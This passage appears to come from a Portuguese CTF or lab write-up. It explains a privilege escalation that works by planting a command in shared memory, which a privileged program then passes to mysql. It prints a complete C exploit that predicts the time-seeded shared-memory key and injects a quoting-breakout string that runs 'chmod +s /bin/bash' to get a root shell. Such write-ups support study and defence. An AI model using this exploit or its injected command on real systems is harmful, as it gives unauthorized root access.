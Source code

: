 Perceba que o meu binário retornou o conteúdo armazenado na memória compartilhada. Como nas análises anteriores foi possível identificar que o valor do hash era passado ao comando `mysql`, decidi copiar a primeira porção da string e injetar o comando no lugar do hash, de forma que ele pudesse ser executado logo após o comando `mysql`. Dessa forma, é possível encadear os comandos e obter uma execução de comandos de forma privilegiada. O exploit final ficou da seguinte forma:

{% code title="shm-exploit.c" lineNumbers="true" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <errno.h>
#include <time.h>
#include <unistd.h>

#define SHM_SIZE 1024
#define SHM_MODE 0x3B6

key_t get_key() {
  int timestamp = time(NULL);
  srand((unsigned int) timestamp);
  key_t key = rand() % 0xfffff;
  printf("[+] Generated key: 0x%X\n", key);
  return key;
}

int main(int argc, char *argv[]) {
  // Get the shared memory segment
  key_t key = get_key();
  int shmid = shmget(key, SHM_SIZE, IPC_CREAT | SHM_MODE);
  if (shmid == -1) {
    perror("shmget");
    exit(EXIT_FAILURE);
  }

  // Attach the shared memory segment
  char *data = shmat(shmid, NULL, 0);
  if (data == (char *) -1) {
    perror("shmat");
    exit(EXIT_FAILURE);
  }

  // Copy the command to the shared memory segment
  // mysql -u %s -D %s -s -N -e \'select email from teampass_users where pw = \"-> injection occurs here %s <-\"\'
  const char *command = "chmod +s /bin/bash";

  sleep(1);
  snprintf(data, SHM_SIZE, "Leaked hash detected at Thu Feb 27 16:00:20 2025 > \"';%s;#", command);
  printf("[+] Shared memory data: %s\n", data);

  if (shmdt(data) == -1) {
    perror("shmdt");
    exit(EXIT_FAILURE);
  }

  return 0;
}
```
{% endcode %}
